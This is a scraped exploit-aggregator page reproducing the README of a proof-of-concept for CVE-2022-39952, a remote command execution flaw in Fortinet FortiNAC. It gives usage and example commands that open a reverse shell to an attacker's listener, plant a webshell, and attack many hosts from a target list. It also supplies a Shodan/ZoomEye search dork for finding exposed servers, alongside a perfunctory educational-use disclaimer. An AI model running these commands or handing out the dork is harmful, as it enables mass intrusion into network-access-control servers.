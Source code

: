 ```yaml
---
title: Exploit for Externally Controlled Reference to a Resource in Another Sphere in Fortinet Fortinac exploit
url: https://sploitus.com/exploit?id=E42FF09C-161E-561F-A0C7-2AE449BDB571&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-02-27
fetch_date: 2025-10-04T08:09:52.726360
---
```


# Exploit for Externally Controlled Reference to a Resource in Another Sphere in Fortinet Fortinac exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for External Control of File Name or Path in Fortinet Fortinac CVE-2022-39952

2023-02-26 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=E42FF09C-161E-561F-A0C7-2AE449BDB571
# FortiNAC CVE-2022-39952

## PoC for CVE-2022-39952 affecting Fortinet FortiNAC.

> This exploit allows an attacker to execute arbitrary commands on the FortiNAC server. It is based on the PoC developed by [horizon3ai](https://github.com/horizon3ai/CVE-2022-39952), with additional options for targeting multiple hosts.

> Disclaimer: This exploit is for educational purposes only. Please use responsibly and with permission.

## Usage:

```bash
usage: exploit.py [-h] [-t TARGET] [-l LIST] [-lh LHOST] [-lp LPORT]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        The IP address of the target
  -l LIST, --list LIST  List of targets
  -lh LHOST, --lhost LHOST
                        The local host for the reverse shell
  -lp LPORT, --lport LPORT
                        The local port for the reverse shell
```

To use this exploit, you must have Python 3.x installed on your system.

## Requirements:
    Python 3.x
    requests module
    concurrent.futures module

## Examples:

### Execute a reverse shell on a single target:
```bash
$ python exploit.py -t 192.168.1.100 -lh 192.168.1.10 -lp 4444
```

### Execute a webshell on a single target:
```
$ python exploit.py -t 192.168.1.100
```

### Execute a webshell on multiple targets from a list:
```bash
$ python exploit.py -l targets.txt
```

## Note:

>This exploit has only been tested on a limited number of targets, so its effectiveness may vary. The dork for finding potential targets on ZoomEye and Shodan is:

`title:"FortiNAC" +"JSESSIONID"`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)